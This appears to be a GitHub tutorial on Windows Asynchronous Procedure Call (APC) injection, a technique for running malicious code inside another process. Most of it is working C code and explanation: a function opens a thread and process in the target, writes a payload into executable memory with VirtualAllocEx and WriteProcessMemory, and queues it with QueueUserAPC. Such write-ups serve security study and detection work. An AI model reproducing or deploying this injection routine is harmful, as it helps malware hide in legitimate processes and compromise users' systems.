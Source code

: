 # Asynchronous Procedure Call(APC) Injection
Asynchronous Procedure Call (APC) Injection is a technique used to execute malicious code within the context of a targeted process by manipulating `Asynchronous Procedure Calls`, which are a mechanism used in Windows operating systems to execute code asynchronously within a thread's context. 

APCs, or `Asynchronous Procedure Calls`, are a fundamental mechanism used in Windows operating systems to allow for asynchronous execution of code within the context of a specific thread. They are an essential part of the Windows Kernel's Executive subsystem, providing a means for inter-process and intra-process communication. An `Asynchronous Procedure Call` (APC) is a function that executes asynchronously. APCs execute within the context of a particular thread. 

## The Code
The main function for this code looks like all other examples:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_apc(pid);
    return 0;
}
```

We find the Process ID of the target process and pass it to the `inject_apc()` function where the injection takes place. The usual drill. 

The `inject_apc()` function has the following structural code:

```c
int inject_apc(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);
    LPVOID pRemoteCode =  VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);
    dResult = QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
    dResult = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

First, we go ahead and find the a thread in the target process which we can acquire a handle to with the `THREAD_ALL_ACCESS` permissions. Once we have the thread id, we use `OpenThread()` function to get an handle(`hThread`) to it. We then acquire a handle to the target process(`hProcess`), making sure that our handle has the `PROCESS_CREATE_THREAD` permission among the other necessary ones. 

We follow the usual drill of allocating memory in the target process's virtual address space with `VirtualAllocEx()` and copying our payload over with `WriteProcessMemory()`. 

Finally, we come to the heart of the Code: adding a user-mode APC object to the APC queue of the previously selected thread in the target process with the `QueueUserAPC()` function. We pass the following parameters to the function:

- The pointer which points to the beginning of the memory region holding our payload in the target process's virtual address space (`pRemoteCode`). This is treated as the application-supplied APC function to be called when the specified thread performs an alertable wait operation. 
- Handle to the thread (`hThread`) to the queue of which we would add our APC object.
- A `NULL` value which to indicate that no values are passed to the APC function.

Once completed, we enter _Wait-and-Pray_ state where we wait for the thread to finish the tasks at hand and gradually clear the APC queue till it reaches our APC object and executes it. This can take a while, so we wait for the thread to finish execution with `WaitForSingleObject()`. 

Compiling and running.
